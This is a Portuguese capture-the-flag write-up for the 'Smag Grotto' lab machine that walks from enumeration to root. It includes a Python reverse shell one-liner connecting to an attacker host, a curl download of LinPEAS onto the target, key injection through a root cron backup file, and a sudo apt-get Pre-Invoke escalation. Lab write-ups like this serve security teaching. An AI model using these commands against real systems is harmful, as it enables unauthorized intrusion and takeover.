










# _**Smag Grotto CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```


Parece que temos um website, vamos visitar  
Apenas um simples website  
Vamos tentar um _brute force_ de diretórios com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```


Temos um diretório promissor: **e-mail**  
Vamos investigar  
Parece que temos algumas mensagens de e-mail relatando a migração de rede e a falha no _download_ de um arquivo  
É relatado também ser necessário realizar download do arquivo via ```wget```  
Clicando no arquivo, conseguimos download, se trata de um arquivo _.pcap_  
Arquivos _.pcap_ são arquivos padrão utilizados em scanners de rede como Wireshark  
Vamos abrir este arquivo  
Investigando os pacotes HTTP, encontramos um usuário e senha  



Além disso, este pacote está sendo enviado para: <mark>development.smag.thm/login.php</mark>  
Para podermos acessar este domínio, precisamos alterar nosso arquivo _/etc/hosts_  

  

Temos duas áreas para realizar login, vamos tentar ambas  
Ambas levam a mesma página e dão login como sucesso  

  

Vamos começar testando alguns comandos  
Após alguns testes, parece que deve aceitar diversos comandos, mas não existe nenhum resultado visual  
Tentando obter uma shell com o comando abaixo  
> ```bash
> python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ip_address]",[port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
> ```


Obtemos uma shell!  
Vamos melhorar ela com ```python3 -c 'import pty, os; pty.spawn("/bin/bash")'```  

## _**Ganhando acesso**_
Primeiro, vamos investigar um pouco  
Após um tempo procurando algum arquivo explorável com alguns comandos básicos, foi decidido usar o programa <mark>LinPeas</mark> para essa tarefa  
Primeiro, ligamos nosso servidor HTTP com: ```python3 -m http.server 8080```  
Em seguida, na máquina-alvo, buscamos com: ```curl http://[ip_address]:[port]/linpeas.sh -o /tmp/linpeas.sh```; obs: com ```wget``` estava dando erro  
Damos as permissões necessárias e em seguida, executamos  



Este arquivo parece estar sendo executado como _root_, copiando o conteúdo de _/opt/.backups/jake_id_rsa.pub.backup_ para as chaves de **jake**  
Podemos realizar o seguinte:
* em nossa máquina
> ```bash
> ssh-keygen -t rsa -b 4096
> ```
Siga as etapas para criar a chave privada e a chave pública

> ```bash
> python3 -m http.server 8080
> ```

* na máquina-alvo
> ```bash
> wget http://[ip_address]:[port]/pub_key_name.pub -o /tmp/pub_key_name.pub
> cat pub_key_name.pub > /opt/.backups/jake_id_rsa.pub.backup
> ```
Espere 1 minuto e realize login via SSH com: ```ssh -i priv_key_name jake@[ip_address]```  

  

## _**Escalando privilégios**_
Vamos começar com alguns comandos básicos como ```sudo -l```  
Parece que temos algo promissor após ver a seguinte linha:  **(ALL : ALL) NOPASSWD: /usr/bin/apt-get**  
Investigando por comandos para obter _root_, cheamos no seguinte:
> ```bash
> sudo apt-get -o APT::Update::Pre-Invoke::="/bin/bash" update
> ```
Esse comando executa /bin/bash como root antes da atualização de pacotes  



Agora, basta ir atrás das flags!
